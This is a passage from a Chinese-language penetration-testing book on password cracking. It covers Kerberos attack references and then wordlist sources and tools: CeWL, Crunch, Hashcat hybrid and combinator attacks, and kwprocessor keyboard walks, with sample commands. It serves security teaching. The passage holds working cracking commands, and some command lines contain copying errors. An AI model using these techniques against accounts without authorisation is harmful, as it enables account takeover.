- **黄金票据攻击（Golden Ticket Attack）** - 伪造 Kerberos 票据授权票据（TGT）以实现持久访问。
- **白银票据攻击（Silver Ticket Attack）** - 伪造服务票据以访问特定服务。

有关更多信息，请参阅工具 Wiki。

## 结论

在本章中，我们涵盖了关于基于 Microsoft Windows 的密码安全的许多实用理论。我们介绍了两个主要的 Windows 安全认证协议：Kerberos 和 NTLM。我们探讨了针对 Kerberos 的一种流行攻击——Kerberoasting（Kerberos 票据窃取）。我们还查看了几种用于密码安全的工具，包括 Rubeus 和 Mimikatz。在下一章中，我们将深入探讨单词列表！

## 资源与参考

花时间查看下面的链接。这里有很多关于 Windows 安全和密码相关攻击的优秀信息和教程。

- “Windows 身份验证概述。” *Microsoft*，2021 年 7 月 29 日
  - https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/windows-authentication-overview
- “NTLM 概述。” *Microsoft*，2023 年 8 月 21 日 - https://learn.microsoft.com/en-us/windows-server/security/kerberos/ntlm-overview
- “介绍 NTLM 身份验证的限制。” *Microsoft*，2012 年 11 月 27 日 - https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd560653(v=ws.10)
- “Windows 身份验证中的凭据处理过程。” *Microsoft*，2023 年 8 月 13 日 - https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/credentials-processes-in-windows-authentication
- “解密支持的 Kerberos 加密类型选择。” *Microsoft*，2020 年 9 月 2 日 - https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797
- “Active Directory & Kerberos 滥用。” *Red Team Notes* - https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse
- “从 Kekeo 到 Rubeus。” *Harmj0y*，2018 年 9 月 24 日 - https://blog.harmj0y.net/redteaming/from-kekeo-to-rubeus/
- Schroeder, Will. “重新审视 Kerberoasting.” SpectorOps, 2019 年 2 月 20 日 - https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1?gi=ba0c8e7d2695

## 第 3 章

### 单词列表

你每年都会看到那些“20XX 年顶级密码”列表，但老实说，在我看来它们已经不再真实了。服务器的基本密码要求主要防止了列表中所列许多密码的使用。在积极破解公开的转储列表时，我在过去几年看到的最常见的顶级密码是人名（或姓氏）、数字以及可能的符号的组合。人们是习惯和模式的生物，在创建密码时尤其如此。姓名、重要日期或数字容易记住，因此，创建密码时通常使用这些内容。许多密码还以大写字母开头，并以符号结尾。要克服多年良好的语言习惯是很困难的。

我个人使用 Kali Linux 来处理我的单词列表，但我大部分密码破解工作是在 Windows 11 系统上进行的。最高效的破解是在拥有非常强大且快速 GPU 的系统上完成的。在我家，这也兼作我的游戏 PC。所以，就是 Microsoft Windows！话虽如此，Hashcat 的命令在 Windows 和 Linux 之间几乎完全相同，因此我将展示命令的通用版本，以便读者可以在他们选择的平台上使用。全书中，任何 Linux 命令都在 Kali Linux 上显示。此外，任何基于 Windows 的命令都在 Windows 11 或 Windows Server 2022 实验系统上运行。

在本章中，我们将讨论单词列表 – 单词列表是密码破解的重要组成部分。一旦我们对查找、创建和使用单词列表有了扎实的理解，我们将开始使用单词列表结合破解工具来实际破解密码。

但首先，让我们谈谈密码风险和攻击的重要性。

#### 密码风险与攻击

在当今的数字时代，随着数据和个人信息越来越多地在线存储和传输，使用强复杂密码的重要性怎么强调都不为过。弱密码仍然是使个人和组织面临广泛网络威胁的最重大漏洞之一。但首先，让我们看看弱密码的相关风险，以强调强密码在保护数字资产方面所起的关键作用。


##### 网络安全攻击与弱密码

1. **暴力破解攻击：** 攻击者使用自动化工具系统地猜测密码，直到找到正确的那个。诸如 “123456” 或 “password” 之类的弱密码很容易通过这些方法被破解。
2. **字典攻击：** 这些攻击涉及尝试将常用单词或短语作为密码。包含字典单词的弱密码容易受到这种方法的攻击。
3. **凭据填充：** 攻击者使用从一个服务中泄露的用户名-密码对，以获取对个人在其他账户中复用密码的未经授权访问。当弱密码在多个平台上复用时，这尤其危险。
4. **钓鱼攻击：** 网络犯罪分子通常通过欺骗性电子邮件或网站诱使个人透露他们的密码。没有安全防御培训的用户更容易成为这些攻击的受害者，因为他们不太可能识别出警告信号。

#### 弱密码的风险

1. **数据泄露：** 弱密码是导致敏感信息暴露的数据泄露的主要因素。这些泄露事件对个人和组织都可能产生严重后果，导致财务损失和声誉受损。
2. **身份盗用：** 弱密码使得网络犯罪分子更容易冒充个人，从而导致身份盗用。个人和财务信息可能遭到破坏，进而引发严重的财务和情感后果。
3. **账户被入侵：** 使用弱密码的账户面临更高的被入侵风险，这会导致未授权的访问以及账户的潜在滥用，包括发送恶意电子邮件、进行未授权交易或传播恶意软件。
4. **组织安全性削弱：** 在业务环境中，弱密码可能会破坏组织的安全，因为攻击者可能会获得关键系统、机密数据和专有信息的访问权限，从而导致财务损失并损害公司的声誉。

#### 强密码的重要性

1. **抵御暴力破解攻击：** 由大小写字母、数字和特殊字符组合而成的强密码，能显著增加攻击者猜测正确密码所需的时间和精力。
2. **缓解字典攻击：** 不包含易猜单词或短语的复杂密码，对字典攻击具有更强的抵抗力。
3. **防止凭证填充：** 为每个账户使用独特的强密码可以防止攻击者利用泄露的凭证访问其他服务。密码管理工具可以帮助用户为多个账户生成和管理复杂密码。
4. **增强抗钓鱼能力：** 强密码配合其他安全实践，可以通过确保网站或电子邮件来源的合法性，帮助个人识别并抵御钓鱼攻击。

密码在网络安全中的重要性怎么强调都不为过。弱密码是众多网络威胁的入口，从数据泄露到身份盗用无所不包。为了保护数字资产和个人信息，个人和组织必须优先考虑使用强且唯一的密码，并考虑实施额外的安全措施，如双因素身份验证。教育、意识以及主动的密码管理是在与网络威胁的持续斗争中至关重要的。

### 词库

你是一名渗透测试人员或红队成员，正在进行一次活跃的安全评估。你已恢复了密码哈希值，但无法通过它们直接获取进一步的访问权限。该怎么办？破解它们！在尝试破解密码时，词库非常重要。破解程序可以接受一个装满单词的文本文件（也称为词库或字典文件），并利用它来破解密码。它们实际上会从词库中取出一个单词，对其进行加密，然后与加密的密码哈希值进行比较。如果不匹配，就继续尝试下一个密码。大多数破解程序直接使用词库中的单词（逐字使用），而更高级的程序也可以利用词库（或多个词库）并对其进行操作，生成许多新的密码组合来尝试。例如，有些程序可以取词库中的所有单词，并在单词的前面或后面附加字母或数字；或者取两个或更多词库文件，将两者的单词组合起来以创建新的单词列表进行尝试。这大大增加了你破解密码的机会。

你可以从互联网下载包含已公开泄露的破解密码、泄露组合、外语词库、完整字典或百科全书转储等巨大词库。尽管这提供了极其大量的密码可能性，但我硬盘里装满了词库，很多时候这仍然不够。用户可能会在密码中使用行业特定术语或公司名称、职位或头衔。在这种情况下，渗透测试人员将使用公司数据、员工姓名、电话号码、电子邮件地址等制作自己的密码列表。

> **警告：**
>
> 一些公开转储的词库未经清理（即未移除账户信息），其中包含用户账户及密码。拥有这些信息可能涉及伦理问题，在某些国家甚至可能涉及法律问题。切勿尝试使用这些信息来访问你未拥有或未获授权访问的账户。

一些破解工具具有规则集，可修改词库以创建更多的密码组合。这些规则集可以执行诸如将所有大写字符改为小写（或反之）的操作。其他规则可以通过添加前缀、后缀、数字或日期来修改单词，从而生成全新的单词。例如，Leet（133t）说话风格规则集可以取密码文件中的一个单词并将其转换为“Leet 风格”，用数字替换常见字母。使用带有规则的词库可以使密码破解变得更加容易和快速。

你还可以对自己能够破解的密码进行统计模式分析，然后利用这些信息尝试恢复更多密码。这是通过使用工具创建密码猜测掩码来完成的。已恢复的密码还可以作为新的攻击词库，使用破解程序的规则来尝试破解与已恢复密码相似的密码。除非你运气极佳，找到了包含转储中所有密码的词库，否则你最终总是需要分析已破解密码的模式，以尝试破解最后一批密码。

当其他方法都失败时，你需要尝试使用暴力破解来获取剩余的复杂密码。暴力破解只是意味着使用破解程序按顺序遍历所有可能的密码组合。对于字母，破解程序会从“a”开始，依次尝试直到“Z”；对于数字，从“0”开始，依次尝试直到“9”，并尝试中间的所有组合。你可以将这些组合在一起，让破解程序查找从“a0A0a”到“z9Z9z”的密码。你还可以将这些组合与词库一起使用，来破解诸如“a0a0aPassword”或“Passwordz9z9z”这样的密码。

我们将在后续章节中介绍上述所有技术。在本章中，我们将介绍 Kali 中自带的词库、如何制作自己的词库，并简要介绍一些可以从网上下载的词库。

拥有良好的词库（或多个词库）对于破解密码至关重要。正如前文所述，一些词库来自之前的密码转储，有些直接来自字典、人物、地点或物品列表。有些是从模式生成的，有些则是以上所有类型的组合。所有这些都可以从互联网上下载。请小心，一些托管随机词库的网站是恶意的或黑帽网站！

人们可能认为使用巨大的词库是最佳途径——但事实并非如此。虽然使用大型词库可能是一个很好的起点，用于首次遍历，但它们并不总是破解密码最有效的方法。更有效的技术之一是将较短的词库与规则结合使用。我们将在本章稍后介绍使用规则进行破解。首先，让我们看看一些良好的列表来源。

#### 常用词库

- **Ignis** - https://github.com/ignis-sec/Pwdb-Public/tree/master/wordlists
- **Packet Storm** - https://packetstormsecurity.com/Crackers/wordlists/
- **Weakpass** - https://weakpass.com/wordlist
- **Hashkiller** - https://hashkiller.co.uk/
- **Probable Wordlists** - https://github.com/berzerk0/Probable-Wordlists
- **G0tm1k** - https://download.g0tm1k.com/wordlists/large/
- **SecLists** - https://github.com/danielmiessler/SecLists
- **Clem9669** - https://github.com/clem9669/wordlists
- **Hashmob** - https://hashmob.net

在撰写本文时，所有链接均指向活跃的网站，但随着时间推移可能会发生变化。其中一些是单个词库；有些页面包含大量词库。在这些中，Ignis、Clem9669 和 Hashmob 列表是我最喜欢的。我认为这三个是目前可用的最佳集合之一。它们与其他词库及规则结合使用时效果也极其良好。尽管现在有新的“Rock You 2021”词库，但我个人觉得它太大，不适合用于组合、混合或规则类型的攻击。不过，如果你想要一个很好的大型词库，可以轻松地在 Google 上搜索到。

##### 用于目录路径或服务器暴力破解的词库

当然，词库的用途不仅仅局限于密码破解。许多安全工具使用词库进行网页或目录路径枚举。这些工具并不是在破解密码，而是使用词库自动搜索服务器上的目录或文件。这些列表包含诸如常见的控制面板和配置文件名称以及 Web 服务器数据路径等内容。

- [SecLists 仓库](https://github.com/danielmiessler/SecLists)
- [jhaddix 的 Gist](https://gist.github.com/jhaddix)
- [Assetnote 词库](https://wordlists.assetnote.io/)

当你下载词库时，通常会有很多重复的单词，或者词库中包含大量无用的信息。以下是一个清理词库中无用或随机杂乱数据的工具：

- [SecUtils - Clean Wordlist](https://github.com/BonJarber/SecUtils)（尽管我不同意将某些符号归类为“噪音”单词）

##### KALI 自带的词库


Kali 附带了一些你可以使用的词库；问题只是找到它们。大多数词库位于使用它们的主程序目录中。在较新版本的 Kali 中，其他词库的快捷链接存储在 `/usr/share/wordlists` 目录中。你还可以使用 Kali Linux 菜单中的 `05 - password Attacks > Wordlists` 选项作为该目录的快捷方式。

```
(kali@kali)~$ wordlists
> wordlists ~ Contains the rockyou wordlist
/usr/share/wordlists
|--dirb
|~~dirbuster
|~~fasttrack.txt
|~~fern-wifi
|~~metasploit
|~~nmap.lst
|~~rockyou.txt.gz
|--wfuzz
```

### Rock You 词库

在破解过程中最流行的词库之一是“Rock You”词库。这是一个大型集合，包含数百万个实际被使用并从数据库转储中提取出来的密码。

该文件位于 Kali Linux 的 `/usr/share/wordlists/` 目录中，如下所示：

```
(kali@kali)-[/usr/share/wordlists]$ ls
dirb        fasttrack.txt    metasploit     rockyou.txt.gz
dirbuster    fern-wifi        nmap.lst       wfuzz
```

如果你注意到，Rockyou 词库是压缩的，最新版本的 Kali 会询问你是否要解压它，或者你可以手动操作：

```
(kali@kali)~/usr/share/wordlists $
$ sudo gunzip rockyou.txt.gz
[sudo] password for kali:

(kali@kali)~/usr/share/wordlists $
$ ls
dirb		fstrack.txt	metasploit	rockyou.txt
dirbuster	fern-wifi	nmap.lst	wfuzz
```

如果你愿意，可以使用 `cat` 命令查看该文件，但它对于终端查看来说相当大。

### JOHN THE RIPPER 词库

一直受欢迎的密码破解工具 John the Ripper 附带了一个相对较小的密码列表，但它确实包含了网络上使用最广泛的一些密码。

- 该文件位于 `/usr/share/john/` 目录中，如下所示：

```
(kali@kali)~/usr/share/john $
$ ls *.lst
password.lst
```

### WFUZZ 词库

Wfuzz 是一个网站暴力攻击工具。虽然并非所有词库都有用，但有些很有趣，尤其是“general”目录下的那些。

- 这些文件位于 `/usr/share/wfuzz/wordlist` 目录中，如下所示：

```
(kali@kali)~/usr/share/wfuzz/wordlist $
$ ls
general	Injections	others	stress	vulns	webservices
```

### 附加词库

正如我之前提到的，在 `/usr/share/` 目录中还有其他几个带有词库的程序。尽管 `RockYou.txt` 可能是内置词库中最好的之一。如果你想尝试额外的词库，只需在 `/usr/share/` 目录中到处看看，看看你能找到什么。

### 词库生成工具

下载现成的词库并不是你唯一的选项。Kali 中有几个工具允许你制作自己的个性化词库。CeWL 相当有用，因为它允许你通过从目标网站抓取信息来创建密码。Crunch 也很好，因为它允许你从头开始创建自己的自定义词库。让我们更仔细地看看如何使用这些工具。

#### CEWL

**工具作者**：Robin Wood

**工具网站**：https://digi.ninja/projects/cewl.php



CeWL 是一个创建公司相关或基于主题词库的绝佳工具。很多时候，用户会使用与其工作地点或工作内容相关的单词来创建密码。CeWL 爬取目标网站并使用在网站上发现的单词构建自定义词库文件。

- CeWL 不再默认安装，但只需输入 `cewl` 即可安装。

要使用 CeWL，请提供你需要的选项和目标 URL。例如，如果我们想要爬取网站 `cyberarms.wordpress.com`，深度为 1 层 `-d 1`，提取任何 6 个字符或更长的单词 `-m 6`，并将其保存为 `cyberarms.txt`，我们将使用以下命令：

```bash
cewl -w cyberarms.txt -d 1 -m 6 https://cyberarms.wordpress.com/
```

```
(kali@kali)-[~]~~
$ cewl -w cyberarms.txt -d 1 -m 6 https://cyberarms.wordpress.com/
CeWL 5.4.8 (Inclusion) Robin Wood (robin@digil ninja) (https://digi.ni
(kali@kali)-[~]~~
$ cat cyberarms.txt
Security
Computer
content
January
December
October
February
September
August
release
Cybersecurity
```

CeWL 爬取目标网站并创建包含符合我们条件的术语的词库。生成的文本文件在使用前可能需要稍微清理一下，但这是一个非常有用的工具。

#### CRUNCH

**工具作者：** Mimayin, Bofh28

**工具网站：** [Crunch Wordlist 项目](https://sourceforge.net/projects/crunch-wordlist/)

Crunch 是一个很好的程序，允许你创建自己的自定义密码列表。只需告诉 Crunch 你想要什么，比如长度和复杂度，Crunch 就会为你生成。

```
(kali@kali)-[~]
$ crunch -h
crunch version 3.6

Crunch can create a wordlist based on criteria you specify.
The output from crunch can be sent to the screen, file, or
to another program.

Usage: crunch <min> <max> [options]
where min and max are numbers

Please refer to the man page for instructions and examples on how to use crunch.
```

Crunch 的手册页（在 Kali 终端中输入 `man crunch`）包含了关于如何使用该工具的完整说明和示例。基本上，我们只需告诉 Crunch 单词的最小和最大长度、要使用什么类型的字符，Crunch 就会完成剩下的工作。Crunch 大量使用位于其安装目录 - `/etc/share/crunch` 中的 `charset.lst` 文件。因此，当你使用更高级的字符集（如下所示）时，你需要从该目录运行 crunch，或者在使用 `-f` 开关时指向该目录。

好吧，让我们从一个简单的例子开始：

> 在终端提示符下，输入，`crunch 1 3 -o threeletters.txt`

这告诉 Crunch 从单个字母 `1` 开始，结束于三个字母 `3`，然后它将输出 `-O` 保存为 `threeletters.txt`。基本上，Crunch 从单个字母 `a` 开始，循环遍历所有排列，直到到达 `zzz`。

它将产生类似以下内容：

- a, b, c, d, e, f, g, h, i, j, 等等...

- aa, ab, ac, ad, ae, af, ag, ah, ai, aj, 等等...

- aaa, aab, aac, aad, aae, aaf, aag, aah, aai, aaj, 等等...

如果我们调整选项，我们可以创建更复杂的列表。

- 输入 `crunch 3 4 abcde1234 -o alphanumeric.txt`，如下所示：



该命令使用 `abcde1234` 的字母/数字组合创建一个词库，从 3 个字符 `aaa` 开始，到 4 个字符 `4444` 结束。这将生成一个包含如下字符串的文本文件：

- aa1, bb3, ec4, 2a21, 和 e3da

##### CRUNCH - 使用 CHARSET.LST 文件


Crunch 的 `Charset.lst` 文件包含预定义为字母数字或符号字符串的关键字列表。我们可以使用这些关键字，这样就不必手动输入我们要使用的字符。该文件位于 `/usr/share/crunch` 目录中。如果我们查看该文件，我们可以看到可用的关键字集：

- ➤ `cd /usr/share/crunch`
- ➤ `cat charset.lst`



我们可以使用任何已定义的集合，例如：

- ➤ `sudo crunch 2 4 -f charset.lst mixalpha-numeric-all -o mixedall.txt`

`kali@kali:-/usr/share/crunch]`

```
$ sudo crunch 2 4 -f charset.lst minalpha-numeric-all -0 mixedall.txt
```

Crunch 将生成以下数据量：393732324 字节

375 MB

0 GB

0 TB

0 PB

Crunch 将生成以下行数：78914316

crunch: 输出生成进度 98%

crunch: 输出生成进度 100%

该命令创建了一个单词列表，该列表遍历包含所有字母、数字和符号的两到四个字符的单词。大多数网站要求新账户使用至少包含字母和数字组合的密码。因此，拥有包含这些组合的单词列表是一个良好的起点。

密码中出现数字串也是非常常见的。我经常看到长达 16 位数字的组合，与人物、地点或事物结合使用。你可以使用 crunch 生成一个数字范围的单词列表，如下所示：

```
sudo crunch 1 5 -f charset.lst numeric -o 1to5numbers.txt
```

Crunch 将生成以下数据量：654320

0 MB

0 GB

0 TB

0 PB

Crunch 将生成以下行数：111110

crunch: 输出生成进度 100%

这将创建一个包含一到五位数字的单词列表。单独使用它效果并不显著，但结合 Hashcat 的 Al 组合器攻击以及“Rock You”或 Ignis 列表使用时效果非常好。这会从单词列表中取一个词，并加入我们新生成的数字列表中的数字。

### CRUNCH：创建 Unicode 单词列表

许多语言包含扩展字符或 Unicode 字符。我们可以使用 Crunch 创建包含“Unicode”字符的单词列表。“mixalpha-space-sv”字符集包含其中一些字符。

如下所示：

`mixalpha-space-sv =`

`[abcdefghijklmnopqrstuvwxyzäöäABCDEFGH IJKLMNOPQRSTUVWXYZ`

`ÄÖ]`

我们可以使用此字符集来构建单词列表。

```
sudo crunch 3 5 -f charset.lst mixalpha-space-sv -o mixedall.txt
```



我们现在有了一个用于密码破解的混合字符列表。我们可以将此列表与之前的“1 到 5 位数字”列表结合，形成非常实用的组合。或者，我们可以在混合攻击中使用它，让 Hashcat 添加数字。

如下所示：

```
hashcat --remove -m 0 uncracked.txt -o cracked.txt -i -a6 mixedall.txt ?d?d?d?d -O
```

我们将在后续章节中深入介绍 Hashcat。目前，只需知道上述命令会取我们新创建的单词列表，并逐个在单词列表末尾添加一位十进制数字，依次递增。因此，第一次攻击路径会在单词末尾添加一个数字，第二次路径会在单词末尾添加两个数字，依此类推。

使用这种简单技术，我成功破解了未破解列表中大量的密码哈希。它破解了如下密码：

- NMWTÄ,,48
- hūLlLo1995
- ËŸminÄY1311
- Nickū2501

我知道这些字母看起来有点不同，但这就是 Hashcat 显示 Unicode 字符的方式。在某些情况下这会很方便，但你可以使用破解程序中的规则和组合攻击来达到类似的效果。

### CRUNCH - 创建更高级的单词列表



在使用 crunch 创建单词时，我们可以使用多个字符集。人类是习惯和模式的生物，因此你在破解密码时会发现模式。你可以使用任何模式，通过 crunch 创建自定义单词列表。

简单来说，列出你想使用的每个字符集，然后使用“@ , % ^”字符创建掩码，就像在 Hashcat 中做的那样。“@”符号代表第一个字符集中的字符。“,”代表第二个，“%”代表第三个字符集，依此类推。然后使用“-t”模式开关来构建你的模式。

#### 警告：这可能会快速填满硬盘 – 你已被警告

是不是很困惑？让我们看一个例子：

```
sudo crunch 10 10 -f charset.lst mixalpha-space-sv symbols14-space ualpha -o mixedsymupper.txt -t @@,%%%
```

不要让这个命令运行超过几秒钟！它可能会生成一个巨大的文件。按"Ctrl-C"并查找"START"文件。

你应该会看到这样的单词：

aaa!!!#VVR

baa!!$#WUS

aba!*!#KTT

cab&!!)SSU

你应该能看到我们构建的模式：

- 3 个来自 `mixalpha-space-sv` 字符集的字母 (`@@@`)
- 4 个来自 `symbols14-space` 字符集的符号 (`,,,,`)
- 3 个来自大写字母字符集 (`%%%`)

很多时候，你会发现某个单词在密码哈希中被反复使用，比如公司名称。假设我们发现一串密码，包含虚构的公司缩写"WOW"，随后是 3 个符号、2 个大写字母和 5 个数字。

我们可以使用以下 Crunch 命令：

```
sudo crunch 13 13 -f charset.lst symbols14-space ualpha numeric -o special.txt -t WOW@@,,%%%%
```

再次，不要让它运行超过几秒钟，然后查看"START"输出文件。

- WOW!!!AB11910
- WOW!!!AB11911
- WOW!!!AB11912
- WOW!!!AB11913

Crunch 是一个功能强大的工具，拥有许多选项。如果你找不到满足需求的单词列表，就用 Crunch 构建它！我们只涉及了该工具的几个功能。还有额外的功能以及存储输出文件的不同方式 - 请参阅 crunch 手册以获取有用的示例。

### HASHCAT - 使用 HASHCAT 创建单词列表

许多 Hashcat 用户不知道，实际上可以使用 Hashcat 工具本身来创建单词列表。你可以使用任何标准的 Hashcat "-a" 攻击命令来生成单词列表。我们将在后续章节中介绍几种 Hashcat 攻击模式。因此，而不是逐步讲解这些步骤，我制作了一个图表，展示了一些常见用法：

| 命令 | 描述 | 示例输出 |
| :--- | :--- | :--- |
| `hashcat64 -a 3 -i ?d?d?d?d --stdout > numbers1-4.txt` | 创建如下单词： | 1111<br>1112<br>1123<br>1234 |
| `hashcat64 -i -a 6 FrenchWordlist.txt ?d?d?d?d --stdout > FrenchNumbers1-4.txt` | 创建如下单词： | chat1111<br>chat2222<br>chien1111<br>chien2222 |
| `hashcat64 --stdout wordlist.txt -r rules/toggles3.rule -o WordlistRules.txt` | 创建如下单词： | Admin<br>aDmin<br>adMin<br>admiN<br>admin |

再次强调，你可以使用任何你希望的 `"-a"` 攻击模式，只需确保使用 `"--stdout"` 开关。然后你可以使用 `"-o"` 指定输出文件，或者直接使用 `">"` 文件重定向命令。

### HASHCAT 工具

工具 GitHub：[https://github.com/hashcat/hashcat-utils](https://github.com/hashcat/hashcat-utils)

工具发布页：[https://github.com/hashcat/hashcat-utils/releases](https://github.com/hashcat/hashcat-utils/releases)


安全领域没有多少人知道 Hashcat 工具包。这些工具包是独立于 Hashcat 下载的，是密码破解和创建单词列表的一套很棒资源工具。你可以从工具网站下载 Hashcat 工具包，然后按照网站提供的说明进行安装。例如，对于 Windows 安装，你只需解压最新的发布下载并运行所需的 `.exe` 文件。

### 准备你的源单词列表

收集你打算组合的单词列表。这些可以是标准字典、常用短语、泄露的密码，或其他任何相关来源。

> **警告：** *使用非常小的单词列表，因为这可能会快速填满你的硬盘！* *生成的输出文件比输入文件**大得呈指数级增长**。*

### 使用组合器命令

`组合器`命令用于从多个输入文件生成单词列表组合。它将生成一个包含输入文件中所有可能单词组合的单一文件。基本用法：

> `combinator [输入文件] > [输出文件]`

例如，要组合单词列表 `dictionary1.txt` 和 `dictionary2.txt`，你可以运行：

```
combinator dictionary1.txt dictionary2.txt > combined_wordlist.txt
```

### 使用组合器3命令

`combinator3` 命令类似于 `combinator`，但它专注于通过组合三个输入文件来生成更复杂的词表组合。这在创建具有更高变异性质的混合词表时特别有用。

基本用法：

```
combinator3 [OPTIONS] [INPUT_FILES] > [OUTPUT_FILE]
```

例如，要组合三个词表 `dictionary1.txt`、`dictionary2.txt` 和 `dictionary3.txt`，你可以运行：

```
combinator3 dictionary1.txt dictionary2.txt dictionary3.txt > combined_wordlist.txt
```

> **警告：** *Combinator 会生成巨大的输出文件，Combinator3 生成的文件更大！我总是密切关注硬盘剩余空间，如果文件变得太大，我会按 "CTRL-C" 停止生成。*

根据具体需求，你可以使用 Hashcat Utils 的命令进一步定制生成的词表。例如，你可以去重、排序、应用规则，或使用其他工具在将词表用于 Hashcat 破解密码之前对其进行优化。

有关更多信息，请参阅该工具的 Wiki 页面：

[hashcat_utils wiki](https://hashcat.net/wiki/doku.php?id=hashcat_utils)

## HASHCAT 键盘路径行走密码词表

Hashcat 的键盘路径行走工具 `KwProcessor` 能够基于键盘路径行走技术快速轻松地生成密码列表。许多用户使用键盘路径风格的密码。在本节中，我们将简要介绍如何使用该工具。

### 简介

键盘路径行走密码在许多组织中很流行，尤其是政府机构。它们使用起来相当简单且易于记忆。基本上，你从键盘上的某个特定键开始，然后选择一个方向（或多个方向）并开始按键。当你在键盘上“行走”时，你的密码随之输入。

你可以通过使用 Shift 键并在模式中包含数字来创建复杂的密码，如下所示：



从字母 “z” 开始，我们向左上移动，按下 “a”、“q” 和 “1” 键。然后我们向右移动一行，按下数字 “2”，接着向右下移动回到键盘下方，按下 “w” 键并停在 “s” 上。这将创建密码 “zaq12ws”。如果我们交替使用 Shift 键，我们会得到密码 “ZaQ1@WS”，这稍微复杂一些。

键盘路径行走之所以成功（直到目前为止）是因为攻击者需要知道起始键、方向、方向变化（如果有）、是否使用了特殊键以及何时使用，当然还有结束键。Hashcat 的 KwProcessor 工具使创建键盘路径行走词表变得非常容易。

### 安装 KWPROCESSOR (KWP)

与 Hashcat utils 一样，kwp 是从 hashcat 下载的可选项。只需下载最新版本，或者你可以从源代码构建。下载最新版本是最佳选择，因为它已经几年没有更新了。

- 下载最新版本 - [https://github.com/hashcat/kwprocessor/releases](https://github.com/hashcat/kwprocessor/releases)
- 解压文件
- 使用 "`./kwp`" 运行程序

### 键盘布局和路径

要破解键盘路径行走密码，你需要两样东西：键盘按键的布局以及生成词表所需的一组路径。在 kwp 程序目录中，你会找到 *“keymaps”* 和 *“routes”* 文件夹：

```
(kali@kali):~/kwprocessor $ ls
basechars  doc  keymaps  kwp  kwp32.exe  kwp64.exe  routes
```

Keymaps 文件夹包含多种语言的键盘布局：

```
(kali@kali):~/kwprocessor/keymaps $ ls
de.keymap en.keymap es.keymap fr.keymap ru.keymap
(kali@kali):~/kwprocessor/keymaps $ cat en.keymap
1234567890-
qwer tyuiop[]\
asdfghjkl;'
zxcvbnm,./
~!@#$%^&*() +
QWERTYUIOP{}]
ASDFGHJKL:"\
ZXCVBNM<>?
```

routes 文件夹包含 7 个预配置的键盘路径行走或路径，可用于生成密码：

```
(kali@kali):~/kwprocessor/routes $ ls
2-to-10-max-2-direction-changes-combinator.route
2-to-10-max-3-direction-changes.route
2-to-16-max-3-direction-changes.route
2-to-16-max-4-direction-changes.route
2-to-32-max-5-direction-changes.route
2-to-4-exhaustive-prince.route
4-to-4-exhaustive.route
```

我们可以使用这些预配置的路径，或者使用命令行开关创建自己的路径。

输入 *“./kwp --help”* 以查看可用选项：

```
[kali@kali :~/kwprocessor]_
$ ./kwp --help
Advanced keyboard-walk generator with configurable basechars, keymap

Usage: ./kwp [options]... basechars-file keymap-file routes-file

Options Short / Long                | Type  | Description
====================================+=======+================================
-V, --version                       |       | Print version
-h, --help                          |       | Print help
-O, --output-file                   | FILE  | Output-file
-b, --keyboard-basic                | BOOL  | Include characters reachable wit
-S, --keyboard-shift                | BOOL  | Include characters reachable by
-a, --keyboard-altgr                | BOOL  | Include characters reachable by
-Z, --keyboard-all                  |       | Shortcut to enable all --keyboar
-1, --keywalk-south-west            | BOOL  | Include routes heading diagonale
```

### 创建 KWP 词表

要创建一个简单的 kwp 词表，我们将使用英文键盘布局和“2-10 最大 3 方向变化”路径文件，如下所示：

```
$ ./kwp basechars/full.base keymaps/en.keymap routes/2-to-10-max-3-directional-changes.route
```


这会导致 `kwp` 创建多个键盘路径行走组合，长度为 2-11 个字符，最大方向变化次数为 3：

```
bvbnm,..;p0
cxcvbnm,ki8
vcvbnm,.lo9
xzcvcbnm]u7
-[poiuytrf
@poiuytred
8iuytrewqa
9oiuytrews
=][poiuytg
i';lkjhgf v
ikjhgfdsaz
olkjhgfd sx
p;lkjhgf dc
```

命令的输出直接发送到屏幕，因此要创建输出文件，你需要将命令输出到文本文件：

```
